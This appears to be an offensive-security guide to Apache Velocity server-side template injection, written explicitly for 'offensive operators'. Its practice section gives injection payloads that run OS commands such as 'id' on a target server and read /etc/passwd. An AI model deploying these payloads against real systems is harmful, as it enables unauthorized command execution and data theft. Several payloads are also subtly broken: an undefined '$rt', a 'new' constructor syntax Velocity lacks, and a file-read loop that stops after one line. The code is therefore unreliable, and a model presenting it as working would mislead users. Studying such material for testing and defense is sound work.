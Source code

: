```yaml
---
title: Mastering Velocity Exploitation Techniques
description: Explore Apache Velocity SSTI for remote code execution and file access
  with practical steps and payloads.
keywords:
- Velocity SSTI
- Apache Velocity
- remote code execution
- file access
- template injection
- Java runtime
- security vulnerabilities
- exploitation techniques
---
```


# Velocity Exploitation

## Context

This article provides a comprehensive guide to exploiting Apache Velocity template injection for offensive purposes. It is crafted to help offensive operators understand and execute attacks that culminate in command execution or sensitive file access through server-side template injection (SSTI). Before delving into these techniques, readers should have an understanding of template engines, the Java Runtime Environment, web server architecture, and generic SSTI techniques.

## Theory

### Apache Velocity Template Engine Internals

Apache Velocity is a Java-based templating engine that facilitates dynamic web content rendering. While it empowers developers with the capability to dynamically generate site content using the Velocity Template Language (VTL), it can also pose significant security risks if not properly sandboxed.

One underlying principle that makes Apache Velocity potentially dangerous is its ability to access Java objects and methods directly within the templates. If user input is embedded within these templates in an unsafe manner, it could be evaluated, leading to arbitrary code execution.

### Velocity Injection Attack Surface

The attack surface for Velocity injection is broadened by the ease with which Apache Velocity templates can evaluate user-controllable inputs. A typical attack sequence involves an adversary injecting Velocity syntax into any field or parameter processed by the template engine.

Developers often make the mistaken assumption that these templates are fully isolated from sensitive Java classes. In reality, Velocity templates can interact with a broad spectrum of Java classes, thanks to built-in objects such as `$runtime` and `$request`, thereby exposing sensitive interfaces and functionalities.

### Command Execution via Velocity SSTI

At the core of exploiting Velocity for command execution is the engine's linkage with the Java Runtime. It allows access to Java's underlying system processes if it isn't deliberately restricted, facilitating command execution directly through template evaluations.

Attackers exploit this by using syntax such as `#set($x=$rt.getRuntime())` to fetch a Runtime instance, which can then instigate command executions. Input filter mechanisms often fail against strategic input obfuscation or alternate syntax forms, thus allowing these injections to succeed.

### File Access and Inclusion via Velocity

For file access and inclusion, the Velocity engine utilizes Java's input/output (IO) classes, enabling attackers to read or include arbitrary files via template injections.

For example, malicious payloads can deliberately instantiate `File` or `FileInputStream` classes, achieving unauthorized file accesses and completions due to improper input validation and inadequate access controls in templates.

## Practice

### Velocity SSTI for Remote Command Execution

To exploit Velocity SSTI for Remote Command Execution:

1. Inject the following payload to obtain a Runtime instance and execute the `id` command on the server:
    
    ```velocity
    #set($x=$rt.getRuntime())
    #set($y=$x.exec('id'))
    $y.waitFor()
    ```

2. Read and display the command output by injecting additional Velocity syntax:
    
    ```velocity
    #set($is=$y.getInputStream())
    #set($br=new java.io.BufferedReader(new java.io.InputStreamReader($is)))
    #set($output='')
    #set($line = $br.readLine())
    #while($line)
    $output$line
    #set($line = $br.readLine())
    #end
    $output
    ```

*Outcome*: If successful, the attacker gains the ability to execute arbitrary OS commands on the target server, which can lead to significant control over the victim system.

### Velocity SSTI for Arbitrary File Read

To achieve Arbitrary File Read using Velocity SSTI:

1. Deploy the following payload to read contents of the `/etc/passwd` file using Java IO classes:

    ```velocity
    #set($fis=new java.io.FileInputStream('/etc/passwd'))
    #set($isr=new java.io.InputStreamReader($fis))
    #set($br=new java.io.BufferedReader($isr))
    #set($output='')
    #foreach($ignore in [true]) #set($line=$br.readLine()) #if($line) $output = "$output$line\n" #set($ignore=true) #end #end
    $output
    ```

*Outcome*: This exploitation fetches and displays sensitive information like the contents of the `/etc/passwd` file, potentially exposing critical server data.

## Tools

- **Burp Suite**: A tool for intercepting traffic and testing security vulnerabilities.
- **curl**: A command-line utility for crafting HTTP requests.
- **VelocityPayloads**: Predefined payloads to facilitate SSTI exploitation in Apache Velocity.

This detailed guide should arm security practitioners with the operational knowledge to exploit Apache Velocity template injection vulnerabilities effectively and responsibly, following ethical hacking guidelines.
